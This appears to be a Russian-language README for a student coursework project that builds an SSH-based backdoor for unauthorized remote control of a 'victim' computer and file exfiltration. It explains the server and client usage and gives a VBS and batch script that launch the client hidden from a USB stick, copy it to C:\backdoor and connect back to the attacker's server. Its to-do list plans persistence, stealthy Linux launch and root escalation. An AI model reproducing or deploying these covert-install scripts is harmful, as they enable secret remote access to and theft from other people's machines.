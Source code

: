 # Курсовая работа по АВС
## Тема проекта
Backdoor
## Техническое задание
Используя клиент-серверную архитектуру, написать программу наподобие бэкдора для несанкционированного доступа к данным, удаленному управлению операционной системой. Использовать SSH. Реализовать возможность отправки файлов с компьютера жертвы на сервер.
## Пояснительная записка (незаконченная версия)
### Содержание
0. Введение
1. Серверная часть
2. Клиентская часть
3. Описание использования
4. Заключение
## Введение
#### Основные понятия
_Клиент — сервер_ (англ. client–server) — вычислительная или сетевая архитектура, в которой задания или сетевая нагрузка распределены между поставщиками услуг, называемыми серверами, и заказчиками услуг, называемыми клиентами. Фактически клиент и сервер — это программное обеспечение. Обычно эти программы расположены на разных вычислительных машинах и взаимодействуют между собой через вычислительную сеть посредством сетевых протоколов, но они могут быть расположены также и на одной машине. 

_Сокет_ (англ. socket — разъём) — название программного интерфейса для обеспечения обмена данными между процессами. Процессы при таком обмене могут исполняться как на одной ЭВМ, так и на различных ЭВМ, связанных между собой сетью. Сокет — абстрактный объект, представляющий конечную точку соединения. 

_SSH_ (англ. Secure Shell — «безопасная оболочка») — сетевой протокол прикладного уровня, позволяющий производить удалённое управление операционной системой и туннелирование TCP-соединений (например, для передачи файлов). Схож по функциональности с протоколами Telnet и rlogin, но, в отличие от них, шифрует весь трафик, включая и передаваемые пароли. SSH допускает выбор различных алгоритмов шифрования. SSH-клиенты и SSH-серверы доступны для большинства сетевых операционных систем. SSH позволяет безопасно передавать в незащищённой среде практически любой другой сетевой протокол. Таким образом, можно не только удалённо работать на компьютере через командную оболочку, но и передавать по шифрованному каналу звуковой поток или видео (например, с веб-камеры). 

_Бэкдор_ (англ. backdoor) - вредоносная программа, которая используется для получения несанкционированного удаленного доступа к компьютерной системе, за счет уязвимости в системе безопасности. Бэкдор обычно работает в фоновом режиме и является одним из самых опасных типов вредоносного программного обеспечения, так как он дает возможность выполнять любые возможные действия на зараженном компьютере. Злоумышленник может использовать бэкдор, чтобы следить за пользователем, управлять его файлами, устанавливать дополнительное программное обеспечение, контролировать всю систему ПК и атаковать другие хосты. Часто бэкдор имеет дополнительные возможности, такие как выполнение скриншотов, заражение и шифрование файлов.

#### Архитектура бэкдора
Выше уже была рассмотрена сетевая архитектура клиент-сервер, однако для реализации бэкдора данная архитектура используется наоборот. Сервер посылает команды на компьютер с бэкдором через SSH канал, а программа клиент их выполняет и возвращает ответ в виде сообщения, файлов.

## Серверная часть
Type text here...

Вместе с сервером в папке должен быть файл с именем `test_rsa.key` содержащий RSA ключ.
У большинства дистрибутивов ОС Linux есть _openssl_, с помощью которого можно сгенерировать ключ:
```sh
openssl genpkey -out 'test_rsa.key' -algorithm rsa -pkeyopt rsa_keygen_bits:2048
```
Для ОС Windows его можно сгенерировать, используя [puttygen](http://www.putty.org/), например.
Также в используемой библиотеке `paramiko` есть статический метод:
```python
paramiko.RSAKey.generate(2048)
```
## Клиентская часть
Type text here...
## Описание использования
Файл `server.py` следует запускать непосредственно на компьютере, с которого вы хотите контролировать целевую систему. Файл `client.py` нужно внедрить на компьютер жертвы и запустить его (для Windows это предусмотрено).  
1\. запуск сервера
```
usage: server.py [-h] [-p PORT] un ps
positional arguments:
  un                    the username to establish ssh connection
  ps                    the password to establish ssh connection
optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  the ssh port, 1234 by default
```
Стоит заметить, при запуске сервера без указания порта будет использоваться порт 1234, данный порт не является ssh по умолчанию.  

2\. запуск клиента на целевой ЭВМ
```
usage: client.py [-h] [-v] sip sp un ps
positional arguments:
  sip            the server ip
  sp             the server port
  un             the username of the ssh connection
  ps             the password of the ssh connection
optional arguments:
  -h, --help     show this help message and exit
  -v, --verbose
```
2.1 запуск клиента на целевой ЭВМ (Windows)  
(_На ОС должен быть установлен python-интерпертатор!_)  
Для ОС Windows были написаны скрипты для скрытого запуска с флешки.
На флешке должно быть 3 файла для успешного запуска клиентской части.  
Нужно запустить скрипт `run0.vbs`:
```vbs
CreateObject("Wscript.Shell").Run "run.bat",0,True
```
который запустит следующий скрипт без появления консоли:
`run.bat`
```bat
@echo off
mkdir c:\backdoor
copy "client.py" "C:\backdoor" @rem 'backdoor' - dir to place our client program
copy "run.bat" "C:\backdoor"
cd c:\backdoor
c:
pip install paramiko @rem download necessary lib (comment if it's already downloaded)
python C:\backdoor\client.py server_ip server_port ssh_uname ssh_pswd @rem pass your params here (more details see above)
exit
```
После этого флешку можно извлекать. При безопасном извлечении возникнет предупреждение, что диск используется - это из-за shell скрипта, но можно не обращать на это внимания и спокойно извлекать диск.

## Список использованной литературы
1) https://ru.wikipedia.org/wiki/%D0%9A%D0%BB%D0%B8%D0%B5%D0%BD%D1%82_%E2%80%94_%D1%81%D0%B5%D1%80%D0%B2%D0%B5%D1%80
2) https://ru.wikipedia.org/wiki/%D0%A1%D0%BE%D0%BA%D0%B5%D1%82_(%D0%BF%D1%80%D0%BE%D0%B3%D1%80%D0%B0%D0%BC%D0%BC%D0%BD%D1%8B%D0%B9_%D0%B8%D0%BD%D1%82%D0%B5%D1%80%D1%84%D0%B5%D0%B9%D1%81)
3) https://docs.python.org/3.8/library/socket.html
4) https://resources.infosecinstitute.com
5) http://docs.paramiko.org/en/stable/api
6) https://docs.python.org/2/howto/argparse.html
7) https://pypi.org/project/socket-wait/


### Todos

 - Добавить возможность возобновления работы после перезапуска системы
 - Сделать скрытый запуск для ОС Linux
 - Добавить возможность получения root прав
 - Сделать функцию для отправки скриптов клиенту


